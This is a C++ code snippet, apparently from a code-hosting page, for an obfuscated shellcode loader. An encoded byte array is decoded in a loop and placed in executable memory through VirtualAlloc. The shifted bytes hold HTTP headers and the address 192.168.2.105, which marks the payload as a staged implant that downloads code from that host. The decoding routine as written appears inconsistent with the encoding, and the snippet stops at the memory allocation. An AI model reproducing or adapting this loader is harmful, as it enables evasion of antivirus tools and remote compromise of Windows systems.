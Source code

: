 ```cpp
  unsigned char shiftedArray[] = "\xfd\x49\x84\xe5\xf1\xe9\xc9\x1\x1\x1\x42\x52\x42\x51\x53\x52\x57\x49\x32\xd3\x66\x49\x8c\x53\x61\x49\x8c\x53\x19\x49\x8c\x53\x21\x49\x8c\x73\x51\x49\x10\xb8\x4b\x4b\x4e\x32\xca\x49\x32\xc1\xad\x3d\x62\x7d\x3\x2d\x21\x42\xc2\xca\xe\x42\x2\xc2\xe3\xee\x53\x42\x52\x49\x8c\x53\x21\x8c\x43\x3d\x49\x2\xd1\x67\x82\x79\x19\xc\x3\x76\x73\x8c\x81\x89\x1\x1\x1\x49\x86\xc1\x75\x68\x49\x2\xd1\x51\x8c\x49\x19\x45\x8c\x41\x21\x4a\x2\xd1\xe4\x57\x49\x0\xca\x42\x8c\x35\x89\x49\x2\xd7\x4e\x32\xca\x49\x32\xc1\xad\x42\xc2\xca\xe\x42\x2\xc2\x39\xe1\x76\xf2\x4d\x4\x4d\x25\x9\x46\x3a\xd2\x76\xd9\x59\x45\x8c\x41\x25\x4a\x2\xd1\x67\x42\x8c\xd\x49\x45\x8c\x41\x1d\x4a\x2\xd1\x42\x8c\x5\x89\x49\x2\xd1\x42\x59\x42\x59\x5f\x5a\x5b\x42\x59\x42\x5a\x42\x5b\x49\x84\xed\x21\x42\x53\x0\xe1\x59\x42\x5a\x5b\x49\x8c\x13\xea\x50\x0\x0\x0\x5e\x6b\x1\x4a\xbf\x78\x6a\x6f\x6a\x6f\x66\x75\x1\x42\x57\x4a\x8a\xe7\x4d\x8a\xf2\x42\xbb\x4d\x78\x27\x8\x0\xd6\x49\x32\xca\x49\x32\xd3\x4e\x32\xc1\x4e\x32\xca\x42\x51\x42\x51\x42\xbb\x3b\x57\x7a\xa8\x0\xd6\xec\x74\x5b\x49\x8a\xc2\x42\xb9\x91\x20\x1\x1\x4e\x32\xca\x42\x52\x42\x52\x6b\x4\x42\x52\x42\xbb\x58\x8a\xa0\xc7\x0\xd6\xec\x5a\x5c\x49\x8a\xc2\x49\x32\xd3\x4a\x8a\xd9\x4e\x32\xca\x53\x69\x1\x3\x41\x85\x53\x53\x42\xbb\xec\x56\x2f\x3c\x0\xd6\x49\x8a\xc7\x49\x84\xc4\x51\x6b\xb\x60\x49\x8a\xf2\x49\x8a\xdb\x4a\xc8\xc1\x0\x0\x0\x0\x4e\x32\xca\x53\x53\x42\xbb\x2e\x7\x19\x7c\x0\xd6\x86\xc1\x10\x86\x9e\x2\x1\x1\x49\x0\xd0\x10\x85\x8d\x2\x1\x1\xec\xd4\xea\xe5\x2\x1\x1\xe9\xa3\x0\x0\x0\x30\x56\x6f\x72\x76\x66\x76\x66\x30\x77\x32\x31\x2f\x31\x36\x30\x5b\x31\x52\x5b\x3a\x5b\x59\x46\x59\x48\x46\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x42\x64\x64\x66\x71\x75\x3b\x21\x62\x71\x71\x6d\x6a\x64\x62\x75\x6a\x70\x6f\x30\x6b\x74\x70\x6f\x2d\x21\x75\x66\x79\x75\x30\x69\x75\x6e\x6d\x2d\x21\x62\x71\x71\x6d\x6a\x64\x62\x75\x6a\x70\x6f\x30\x79\x69\x75\x6e\x6d\x2c\x79\x6e\x6d\xe\xb\x42\x64\x64\x66\x71\x75\x2e\x4d\x62\x6f\x68\x76\x62\x68\x66\x3b\x21\x74\x72\xe\xb\x42\x64\x64\x66\x71\x75\x2e\x46\x6f\x64\x70\x65\x6a\x6f\x68\x3b\x21\x68\x7b\x6a\x71\x2d\x21\x63\x73\xe\xb\x56\x74\x66\x73\x2e\x42\x68\x66\x6f\x75\x3b\x21\x4e\x70\x7b\x6a\x6d\x6d\x62\x30\x36\x2f\x31\x21\x29\x58\x6a\x6f\x65\x70\x78\x74\x21\x4f\x55\x21\x32\x31\x2f\x31\x3c\x21\x58\x6a\x6f\x37\x35\x3c\x21\x79\x37\x35\x2a\x21\x42\x71\x71\x6d\x66\x58\x66\x63\x4c\x6a\x75\x30\x36\x34\x38\x2f\x34\x37\x21\x29\x4c\x49\x55\x4e\x4d\x2d\x21\x6d\x6a\x6c\x66\x21\x48\x66\x64\x6c\x70\x2a\x21\x44\x69\x73\x70\x6e\x66\x30\x37\x33\x2f\x31\x2f\x34\x33\x31\x33\x2f\x3a\x35\x21\x54\x62\x67\x62\x73\x6a\x30\x36\x34\x38\x2f\x34\x37\xe\xb\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x42\xbf\xf1\xb6\xa3\x57\x0\xd6\x49\x32\xca\xbb\x1\x1\x41\x1\x42\xb9\x1\x11\x1\x1\x42\xba\x41\x1\x1\x1\x42\xbb\x59\xa5\x54\xe6\x0\xd6\x49\x94\x54\x54\x49\x8a\xe8\x49\x8a\xf2\x49\x8a\xdb\x42\xb9\x1\x21\x1\x1\x4a\x8a\xfa\x42\xbb\x13\x97\x8a\xe3\x0\xd6\x49\x84\xc5\x21\x86\xc1\x75\xb7\x67\x8c\x8\x49\x2\xc4\x86\xc1\x76\xd8\x59\x59\x59\x49\x6\xa2\x4\x1\x1\x51\xc4\xe9\xa0\xfe\x0\x0\x32\x3a\x33\x2f\x32\x37\x39\x2f\x33\x2f\x32\x31\x36\x1\x1\x1\x1\x1\x1";

  // Storage for the new array after being shifted in memory
  unsigned char newArray[sizeof(shiftedArray)];

  // Iterate over each byte in the shifted array
  for (short i = 0; i < sizeof(shiftedArray); i++) {
    short current = shiftedArray[i];

    // Decrement by 1 or roll over to stay within eight bits
    if (current > 0) {
      current -= 1;
    }
    else {
      current = 255;
    }

    // Store reshifted values, XORed with the key of 7
    newArray[i] = current ^ 7;
  }

  // For those unfamiliar with VirtualAlloc (like me five minutes ago), see
  // https://docs.microsoft.com/en-us/windows/win32/memory/reserving-and-committing-memory
  void* exec = VirtualAlloc(
    0,              // The next page to commit (this)
    sizeof newArray,      // Set the page size to the size of the CS array
    MEM_COMMIT,         // Push the next page
    PAGE_EXECUTE_READWRITE    // Allow execute, read, and write permissions
  );

```